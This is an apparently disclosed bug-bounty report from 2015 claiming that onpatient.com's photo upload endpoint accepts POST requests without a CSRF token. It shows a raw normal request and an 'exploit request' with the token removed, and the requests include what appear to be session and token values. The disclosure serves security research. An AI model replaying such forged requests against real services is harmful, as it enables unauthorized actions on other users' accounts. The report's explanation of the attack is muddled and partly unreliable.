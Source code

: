 # Request Accepts without X-CSRFToken  [ Header - Cookie ]

## Report Details
- **Report ID**: 99857
- **URL**: https://hackerone.com/reports/99857
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-11-15T18:29:23.345Z
- **Disclosed**: 2016-08-31T04:44:27.662Z

## Reporter
- **Username**: hussain_0x3c
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: drchrono

## Vulnerability Information
**Hi** 
This is  Hussain and when I test upload  photo on onpatient.com  ..  I'm found  bug in header request  the problem request  accepted upload photo  without X-CSRFToken   .. so  attacker  can delete X-CSRFToken in cookie and  value header and continue in the process to upload  photo in other account 

**True request**
~~~
POST /photos/album/1701/upload_photo/ HTTP/1.1
Host: onpatient.com
Connection: keep-alive
Content-Length: 40467
Accept: application/json, text/plain, */*
X-NewRelic-ID: VQYOWFNSGwICUlhbBQU=
Origin: https://onpatient.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
X-CSRFToken: TEVbZs25uEcxoc1V4U2HDY4G0BKRp3sK
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykSrEKi5Qq1ui4VGe
Referer: https://onpatient.com/photos/album/1701/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
Cookie: km_lv=x; ajs_anonymous_id=%22bc8b3663-2372-4486-9753-84c5679ca58d%22; ajs_user_id=null; ajs_group_id=null; mp_7bbc3c668b5b055f3deebefcadd51c1f_mixpanel=%7B%22distinct_id%22%3A%20%2215105a2b1283b-09e626f77-671b127a-100200-15105a2b12912e%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; olfsk=olfsk08225689781829715; hblid=q1t5IWHaj65y1YE00P21I74nDMOJ0EQ6; __utmt=1; sessionid=k7c07ho1vqx2op6610g8hffa9165yb8m; csrftoken=TEVbZs25uEcxoc1V4U2HDY4G0BKRp3sK; __cfduid=d9672408dff0d22f2aa692141bcfec9271447607104; __utma=10369259.2030467177.1447458874.1447526591.1447606759.7; __utmb=10369259.5.10.1447606759; __utmc=10369259; __utmz=10369259.1447526591.6.3.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); kvcd=1447607115853; km_ai=hussain%40gmail.com_168065; km_ni=hussain%40gmail.com_168065; km_vs=1; km_uq=

--Source photo--

------WebKitFormBoundarykSrEKi5Qq1ui4VGe
Content-Disposition: form-data; name="image"; filename="11813317_497569053731969_6730983602456585420_n.jpg"
Content-Type: image/jpeg

----------1082674095
Content-Disposition: form-data; name="title"

test
----------1082674095
Content-Disposition: form-data; name="description"

test
----------1082674095--

~~~
**Response -1** :- {"album": "1701", "success": true}


**Exploit request**
~~~
POST /photos/album/1701/upload_photo/ HTTP/1.1
Host: onpatient.com
Connection: keep-alive
Content-Length: 240
Accept: application/json, text/plain, */*
Origin: https://onpatient.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2490.86 Safari/537.36
Content-Type: multipart/form-data; boundary=--------1082674095
Referer: https://onpatient.com/photos/album/1701/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.8
Cookie: sessionid=k7c07ho1vqx2op6610g8hffa9165yb8m
X-dotNet-Beautifier: 85; DO-NOT-REMOVE

--Source photo--

----------1082674095
Content-Disposition: form-data; name="title"

test2
----------1082674095
Content-Disposition: form-data; name="description"

test2
----------1082674095
~~~
**Response** **-2** :- {"album": "1701", "success": true}

photo  upload without **X-CSRFToken**

**Note** :- sessionid It does not prevent anything in the method post he work on  PUT and GET

Be Safe 
Thanks  
Hussain




## Attachments
No attachments
